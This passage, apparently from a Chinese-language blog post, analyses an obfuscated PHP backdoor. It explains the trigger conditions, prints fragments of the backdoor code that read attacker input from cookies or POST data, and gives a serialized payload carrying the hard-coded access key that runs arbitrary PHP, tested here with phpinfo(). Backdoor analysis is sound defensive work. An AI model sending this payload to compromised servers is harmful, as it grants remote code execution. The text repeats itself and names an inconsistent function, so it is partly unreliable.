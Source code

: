 ```
e664fd(e664fd($vv, $c77700426), $kk);
```

**后门触发条件：**  
**1.$vv 需要是数组**  
**2\. 成员必须存在'ak'且'ak'需等于 $c77700426 的值**  
        $c77700426 的值在上面已有定义：

        为'aec7e489-2fbc-4b15-871f-1d686eeb80dc';  
**3\. 成员需存在'a'，若值为'i'则输出版本，为'e'则触发后门  
4\. 后门执行内容为成员'd'的值**  
所以 $vv 需要等于↓↓

```
a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"a";s:1:"e";s:1:"d";s:10:"phpinfo();";}
```

直接传入试试有没有问题 ：  

![](https://mmbiz.qpic.cn/mmbiz_png/RpxgdDjibJqeDqP3Ocd1EMFZfpjCB7XRbmnjPJtaBic6ORvyewribz8LTl69DMuJRkV4aDyUMoua9XvWlBBCUpvvw/640?wx_fmt=png)

  
可以执行，回到上面：  

```
a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"a";s:1:"e";s:1:"d";s:10:"phpinfo();";}
```

```
       foreach ($\_COOKIE as $k=>$v){
        $vv = $v;
        $kk = $k;
        }

        if (!$vv){
                foreach ($\_POST as $k=>$v){
                $vv = $v;
                $kk = $k;
                }
        }
```

```
e664fd(e664fd($vv, $c77700426), $kk);
```

看下 x184f5cc() 函数做了什么操作？  

```
e664fd($vv, $c77700426) //$c77700426 = 'aec7e489-2fbc-4b15-871f-1d686eeb80dc'
```

```
e664fd(第一次的返回值, $kk);
```

```
a:3:{s:2:"ak";s:36:"aec7e489-2fbc-4b15-871f-1d686eeb80dc";s:1:"a";s:1:"e";s:1:"d";s:10:"phpinfo();";}
```
